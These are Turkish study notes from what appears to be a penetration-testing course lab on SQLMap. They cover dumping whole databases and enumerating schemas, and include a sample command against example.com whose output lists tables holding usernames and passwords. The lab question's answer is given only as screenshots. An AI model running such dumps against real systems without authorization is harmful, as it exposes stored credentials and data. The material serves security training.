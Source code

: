 
## Full DB Enumeration

Belirli bir tabloyu baz alarak içerik çıkarmak yerine, `-T` seçeneğini kullanmadan (örneğin, `--dump -D testdb`) ilgi alanındaki veritabanındaki tüm tabloları çıkarabiliriz. Sadece `--dump` seçeneğini kullanarak ve `-T` ile bir tablo belirtmeden, mevcut veritabanının tüm içeriği alınır. `--dump-all` seçeneği ise tüm veritabanlarındaki içeriğin tamamını alır.

Bu tür durumlarda, kullanıcıya ayrıca `--exclude-sysdbs` seçeneğini eklemesi önerilir (örneğin, `--dump-all --exclude-sysdbs`). Bu seçenek, SQLMap'e sistem veritabanlarının içeriğini atlamasını söyler; çünkü bu veriler genellikle sızma testleri yapanlar için pek ilgi çekici değildir.


Soru : What's the contents of table flag1 in the testdb database? (Case #1)

Cevap : 

![Pasted image 20241215050917.png](/img/user/resimler/Pasted%20image%2020241215050917.png)

![Pasted image 20241215050928.png](/img/user/resimler/Pasted%20image%2020241215050928.png)
,




# Advanced Database Enumeration

SQLMap ile veritabanı numaralandırmanın temellerini ele aldığımıza göre, bu bölümde ilgilenilen verileri numaralandırmak için daha gelişmiş teknikleri ele alacağız.



## DB Schema Enumeration

Veritabanı mimarisine tam bir genel bakış elde edebilmek için tüm tabloların yapısını almak istersek --schema anahtarını kullanabiliriz:


```shell-session
M1R4CKCK@htb[/htb]$ sqlmap -u "http://www.example.com/?id=1" --schema

...SNIP...
Database: master
Table: log
[3 columns]
+--------+--------------+
| Column | Type         |
+--------+--------------+
| date   | datetime     |
| agent  | varchar(512) |
| id     | int(11)      |
+--------+--------------+

Database: owasp10
Table: accounts
[4 columns]
+-------------+---------+
| Column      | Type    |
+-------------+---------+
| cid         | int(11) |
| mysignature | text    |
| password    | text    |
| username    | text    |
+-------------+---------+
...
Database: testdb
Table: data
```